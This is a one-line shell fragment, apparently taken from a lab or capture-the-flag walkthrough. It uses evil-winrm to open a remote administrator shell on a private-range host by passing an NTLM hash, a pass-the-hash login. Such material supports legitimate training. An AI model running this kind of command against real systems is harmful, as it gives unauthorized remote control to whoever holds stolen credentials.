evil-winrm -i 10.10.11.42 -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```


